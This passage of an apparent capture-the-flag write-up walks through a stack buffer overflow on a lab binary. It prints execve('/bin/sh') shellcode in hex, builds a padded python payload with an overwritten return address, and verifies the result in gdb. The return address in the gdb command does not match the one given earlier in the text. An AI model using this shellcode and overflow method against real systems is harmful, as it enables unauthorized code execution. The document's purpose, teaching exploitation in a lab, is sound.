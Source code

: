 We can print it:
```
31c031c931d231ff31f652682f2f7368682f62696e89e3b00bcd80
```

We have to format this output for it to be printable by python, we have to separate each bytes and precede each byte with `\x` for python to write the byte as hexadecimal value, this hexcode is already in little endian

```
\x31\xc0\x31\xc9\x31\xd2\x31\xff\x31\xf6\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

This shellcode is only 27 bytes long so we have to add 53 filling characters to fill the 80 bytes before printing the address, after checking `python` is installed on the OverRide machine we can use it to add filling easily

```bash
python -c "print('[SHELLCODE HERE]' + 53 * 'a')"
```

Now we have to convert to little endian, separate the bytes and add `\x` for the address:
```
\xcc\xd6\xff\xff
```

Our input command now looks like this:
```bash
python -c "print('[SHELLCODE HERE]' + 53 * 'a' + '\xcc\xd6\xff\xff')"
```

Let's try it using `gdb`
```
   0x080485b5 <+229>:   ret
End of assembler dump.
(gdb) b*0x080485b5
Breakpoint 1 at 0x80485b5
(gdb) r < <(echo dat_wil; python -c "print('\x31\xc0\x31\xc9\x31\xd2\x31\xff\x31\xf6\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'+53*'a'+'
\xcc\xb8\xff\xff')")
```
```
Breakpoint 1, 0x080485b5 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x80485b5 in main; saved eip 0xffffd6cc
```

The `saved eip` has successfully been overwritten by `0xffffd6cc`

We can display the instruction located at this address to be sure it's our shellcode and that it was well inserted
```
(gdb) x/15i 0xffffd6cc
   0xffffd6cc:  xor    %eax,%eax
   0xffffd6ce:  xor    %ecx,%ecx
   0xffffd6d0:  xor    %edx,%edx
   0xffffd6d2:  xor    %edi,%edi
   0xffffd6d4:  xor    %esi,%esi
   0xffffd6d6:  push   %edx
   0xffffd6d7:  push   $0x68732f2f
   0xffffd6dc:  push   $0x6e69622f
   0xffffd6e1:  mov    %esp,%ebx
   0xffffd6e3:  mov    $0xb,%al
   0xffffd6e5:  int    $0x80
   0xffffd6e7:  popa
   0xffffd6e8:  popa
   0xffffd6e9:  popa
   0xffffd6ea:  popa
```